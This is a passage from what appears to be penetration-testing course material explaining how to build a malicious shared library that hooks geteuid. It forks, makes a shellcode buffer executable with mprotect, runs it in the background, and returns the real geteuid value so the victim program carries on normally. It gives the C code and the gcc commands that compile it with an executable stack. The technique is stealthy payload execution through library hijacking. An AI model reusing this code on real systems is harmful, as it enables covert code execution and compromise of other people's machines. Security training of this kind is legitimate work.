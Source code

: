 Ideally, we want the program to return right away, but still run our shell in the background. In order to do this, we need to create a new process for our shell. We can do this using the _fork_[11](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5301-11) method, which creates a new process by duplicating the parent process. This line in the code determines whether or not the result of the fork call is zero. If it is, we are running inside the newly created child process, and can run our shell as we did with our earlier AV bypass shell application. Otherwise, it will return the expected value of _geteuid_ to the original calling program so it can continue as intended. The final two lines provide a meaningless return value in case the code reaches that point, which realistically should never happen.

```
       if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC)) {
                        perror("mprotect");
                        return -1;
                }
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...
");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...
");
        return -2;
}

```

> Listing 66 - Forking the process to get a shell

The code within the _fork_ branch checks that the shellcode resides on an executable memory page before executing it. The reason for this additional step is that the -f PIC compilation flag relocates our shellcode to the library _.data_ section in order to make it position independent. Specifically, the code gets the size of a memory page so it knows how much memory to access. It then changes the page of memory that contains our shellcode and makes it executable using _mprotect_. It does this by setting its access properties to _PROT_READ_ and _PROT_EXEC_, which makes our code readable and executable. If changing the memory permissions fails, the program will exit with a return code of "-1".

We'll save our code as evileuid.c and compile and link it as we did in our previous examples.

```
offsec@linuxvictim:~$ gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c

offsec@linuxvictim:~$ gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

> Listing 67 - Compiling our library
